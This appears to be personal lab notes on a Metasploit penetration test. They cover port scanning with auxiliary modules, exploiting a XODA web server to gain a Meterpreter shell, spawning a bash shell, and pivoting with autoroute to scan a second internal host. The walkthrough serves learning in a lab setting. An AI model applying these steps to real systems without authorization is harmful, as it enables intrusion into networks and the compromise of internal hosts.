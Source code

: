 #### port scanning with auxiliary module
- auxiliary module is used to scanning,discovery,fuzzing,
- auxiliary module can use info gathering,post exploitation also

Suppose  I'm  given a task to pentest a specific target and pivot into internal targets.
#### lab setup
- as a attacker i will first set up my lab
- first I start my metasploit database to keep save everything."service postgresql start".
- Then make sure the database is connect "db_status" in msfconsole.Then create a workspace "workspace -a myworkspace"
#### port-scan
- As I  know the target ip.I will scan the port using auxiliary module. "search portscan"
- then select the exploits " use 5"
- we see the all the options which is required using "show options" command
- set  all the options
- then "run"
This will show the available ports in the target systems
#### Going deeper
- (In this lab) the port is 80 which means it's a web server.We can ensure it by using browser but unfortunately
the lab has no browser.So I use curl "curl ip".In title I found xoda.
- "search xoda" find exploits in metaspoite.
- Again use it like the previous one and get metapreter shell.
- As I am get meterpreter shell that's mean I'm in victim computer.
- In meterpreter session I write "shell" to get better shell. and then write "/bin/bash -i" to get bash shell.
- Using "ifconfig" command in bash shell I find new interface "eth1" which is different ip range.
- Using "ctrl +c" come back to meterpreter shell again
- "run autoroute -s 192.113.124.2(new ip)"
- Make the meterpreter shell in background "background"
- If required we can again back in meterpreter using "sessions" command
- Again we search in msf "search portscan".This time it for new ip (target 2).
- Use a module for new target that is found by the first target. As we add the route we can perfom scan it from my (attacker) machine to victim2 machine via first victim.


